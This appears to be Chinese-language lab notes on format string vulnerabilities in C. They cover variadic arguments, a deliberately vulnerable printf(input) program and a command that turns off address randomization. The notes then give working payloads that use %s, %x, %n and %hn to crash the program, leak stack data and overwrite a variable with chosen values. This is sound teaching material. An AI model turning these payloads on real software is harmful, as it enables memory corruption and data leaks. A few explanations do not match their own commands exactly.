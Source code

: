 # 
#### 如何使用可变参数
printf可以接受任意数目的参数，首先通过自定义的函数理解以下可变参数   
```
#include <stdio.h>
#include <stdarg.h>

int myprint(int Narg, ... )
{
    int i;
    va_list ap;

    va_start(ap, Narg);
    for (i=0; i<Narg; i++)
    {
        printf("%d ", va_arg(ap, int));
        printf("%f\n", va_arg(ap, double));
    }
    va_end(ap);
}

int main()
{
    myprint(1, 2, 3.5);
    myprint(2, 2, 3.5, 3, 4.5);
    return 1;
}
```
va_list 是在 C 语言中引入解决变参问题的一组宏  
a)  首先在函数中定义一个具有va_list型的变量，这个变量是指向参数的指针。  
b)  然后用va_start宏初始化变量刚定义的va_list变量，使其指向第一个可变参数的地址(也就是通过myprint的第一个参数来计算va_list的起始位置)。  
c)  va_arg返回下一个可变参数的位置，va_arg的第二个参数是你要返回的参数的类型  
d)  最后使用va_end宏结束可变参数的获取。  


**而pirntf是通过格式规定符(也就是%的个数)来决定可变参数的数量(va_arg调用次数)**


#### 漏洞程序/实验

**为了简化实验。关闭空间地址随机化**
```
sudo sysctl -w kernel.randomize_va_space=0
```

```
// vul.c
#include <stdio.h>

void fmtstr()
{
    char input[100];
    int var = 0x11223344;

    printf("Target address: %x\n", (unsigned) &var);
    printf("Data at target address: 0x%x\n", var);

    printf("Please enter a string: ");
    fgets(input, sizeof(input)-1, stdin);
    printf(input);
    printf("Data at target address: 0x%x\n", var);
}

void main()
{
    fmtstr();
}
```


#### 攻击一：使程序崩溃
```
ubuntu@VM-0-17-ubuntu:~$ ./vul 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: %s%s%s%s%s%s%s%s%s%s
Segmentation fault (core dumped)
```

![](/software-security/img/format1.png)

每当遇到一个%s,便从va_list指向的位置获取一个值，但是由于其实没有可变参数，va_list现在指向了fprint之外的帧栈,可能指向了fmtstr的帧栈。他们可能都不是合法地址，当一个程序从一个非法地址获取数据就会导致程序崩溃。%s格式规定符是把printf取得的值视为一个地址，并打印出该地址处的字符串。



#### 攻击二：输出栈中的数据
假设漏洞程序中的var是一个秘密值。
```
ubuntu@VM-0-17-ubuntu:~$ ./vul
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: %x.%x.%x.%x.%x.%x.%x.%x.
63.b7fcd5a0.bffff60f.bffff60e.11223344.252e7825.78252e78.2e78252e.
Data at target address: 0x11223344
```
%x格式规定符可以以16进制打印出va_list指向的数，为了计算秘密值到va_list的初始位置的距离可以使用试错法，首先尝试8个%x，可以看到var的值在第5个%x输出


#### 攻击三：修改内存中的程序数据
所有的格式规定符都是输出数据的，唯一有一个例外，就是%n，它会把目前已打印的字符串的个数写入内存。  
比如： printf("hello%n", &i)
```
int main()
{
    int i;
    printf("hello%n\n", &i);
    printf("%d\n", i);

}
```
```
shan@shan-GV62-8RC:~/s$ gcc -o test test.c
shan@shan-GV62-8RC:~/s$ ./test
hello
5
```


下面尝试修改内存中的程序数据  
```
ubuntu@VM-0-17-ubuntu:~$ ./vul 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: aaa
aaa
Data at target address: 0x11223344
```
通过正常执行  看到希望修改的地址是bffff5d4  
可以通过`bffff5d4.%x.%x.%x.%x.%x.%x.%x.%x.%x`的方式把地址放入栈中

首先还是通过试错的方式查看bffff5d4在栈中的位置  
注意： 需要用到linux自带的printf命令将shellcode编码才能写入地址，由于命令行输入的shellcode编码不能直接被转义，所以可以先把输入保存在文件中。 因为小端序的缘故放入内存的顺序是d4->f5->ff->bf，\x的作用是把D和4当作是一个数字   
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD4\xF5\xFF\xBF").%x.%x.%x.%x.%x.%x.%x.%x.%x > input
ubuntu@VM-0-17-ubuntu:~$ ./vul < input 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: ����.63.b7fcd5a0.bffff60f.bffff60e.11223344.bffff5d4.2e78252e.252e7825.78252e78
Data at target address: 0x11223344
```
可以发现地址在第6个格式化符的位置  
把第6个%换成%n  
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD4\xF5\xFF\xBF").%x.%x.%x.%x.%x.%n > input
ubuntu@VM-0-17-ubuntu:~$ ./vul < input 
Target address: bffff5d4
Data at target address: 0x11223344
Please enter a string: ����.63.b7fcd5a0.bffff60f.bffff60e.11223344.
Data at target address: 0x2c
```
成功把var的值修改为0x2c，0x2c即十进制44，说明在遇到%n前输出了44个字符。

!!! shell一句话判断大小端序
    echo -n I | od -o | head -n1 | cut -f2 -d" " | cut -c6
    1为小端模式，0为大端模式



#### 攻击四：修改数据为指定值 
例如把var的值修改为0x9896a4 转成10进制就是10000036  
可以通过修改格式符的进度来控制字符数  
10000000 + 4 * 8 = 10000036
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD4\xF5\xFF\xBF").%8x.%8x.%8x.%8x.%10000000x.%n > input
...
Data at target address: 0x9896aa
```
可以看到成功把值改为0x9896aa。整个过程大约耗时十几秒.  
如果把值改成0x66887799,换成10进制就是17亿多。这个过程估计需要几个小时，有时间的朋友可以尝试以下。

!!! note
    注意地址\xD4\xF5\xFF\xBF 中的英文字符需要大写


#### 攻击五：更快的方法
%n视为4个字节 %hn视为2个字节 %hhn视为1个字节   
因此可以尝试用%hn把var的值修改为0x66887799  
现在把地址bffff5d4按两个字节来分就是 0xbffff5d4和0xbffff5d6。因为是小端序，需要把0x7799放在地址0xbffff5d4上，0x6688放在地址0xbffff5d6上。
```
ubuntu@VM-0-17-ubuntu:~$ echo $(printf "\xD6\xF5\xFF\xBF@@@@\xD4\xF5\xFF\xBF")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
ubuntu@VM-0-17-ubuntu:~$ ./vul < input
...
Data at target address: 0x66887799
```
`\xD4\xF5\xFF\xBF@@@@\xD6\xF5\xFF\xBF`是12个字符  
12 + 8*4 + 26204 = 26248  十六进制是 6688  
26248 + 4369 = 30617  十六进制是 7799  
在两个地址之间插入四个字节的@@@@是为了在两个%hn之间在插入一个%x，这样第二个%hn的时候才到累加到30617完成目标  

这个过程几乎是一瞬间的事情，可以看到通过字节拆分后赋值效率很高  





